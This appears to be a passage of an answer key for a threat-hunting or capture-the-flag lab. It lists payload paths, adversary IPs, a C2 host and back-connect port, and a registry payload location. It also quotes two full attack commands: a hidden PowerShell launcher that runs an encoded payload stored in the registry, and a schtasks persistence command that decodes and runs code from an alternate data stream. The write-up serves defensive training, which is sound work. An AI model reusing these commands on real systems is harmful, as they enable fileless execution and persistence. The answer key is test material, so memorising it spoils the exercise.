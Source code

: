 **Answer 10.3 –** rundll32.exe

**Question 10.4 –** What is the full path of the payload in Investigation 2?

**Answer 10.4 –** `C:\Users\IEUser\AppData\Local\Microsoft\Windows\Temporary Internet Files\Content.IE5\S97WTYG7\update.hta`

**Question 10.5 –** What is the full path of the file the payload masked itself as in Investigation 2?

**Answer 10.5 –** `C:\Users\IEUser\Downloads\update.html`

**Question 10.6 –** What signed binary executed the payload in Investigation 2?

**Answer 10.6 –** `C:\Windows\System32\mshta.exe`

**Question 10.7 –** What is the IP of the adversary in Investigation 2?

**Answer 10.7 –** 10.0.2.18

**Question 10.8 –** What back connect port is used in Investigation 2?

**Answer 10.8 –** 4443

**Question 10.9 –** What is the IP of the suspected adversary in Investigation 3.1?

**Answer 10.9 –** 172.30.1.253

**Question 10.10 –** What is the host name of the affected endpoint in Investigation 3.1?

**Answer 10.10 –** \`DESKTOP-O153T4R\`

**Question 10.11 –** What is the host name of the C2 server connecting to the endpoint in Investigation 3.1?

**Answer 10.11 – e**mpirec2

**Question 10.12 –** Where in the registry was the payload stored in Investigation 3.1?

**Answer 10.12 –** HKLM\\SOFTWARE\\Microsoft\\Network\\debug

**Question 10.13 –** What PowerShell launch code was used to launch the payload in Investigation 3.1?

**Answer 10.13 –** `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -c "$x=$((gp HKLM:Software\Microsoft\Network debug).debug);start -Win Hidden -A \"-enc $x\" powershell";exit;`

**Question 10.14 –** What is the IP of the adversary in Investigation 3.2?

**Answer 10.14 –** 172.168.103.188

**Question 10.15 –** What is the full path of the payload location in Investigation 3.2?

**Answer 10.15 –** c:\\users\\q\\AppData:blah.txt

**Question 10.16 –** What was the full command used to create the scheduled task in Investigation 3.2?

**Answer 10.16 –** `C:\WINDOWS\system32\schtasks.exe" /Create /F /SC DAILY /ST 09:00 /TN Updater /TR "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -NonI -W hidden -c \"IEX ([Text.Encoding]::UNICODE.GetString([Convert]::FromBase64String($(cmd /c ''more < c:\users\q\AppData:blah.txt'''))))\"`

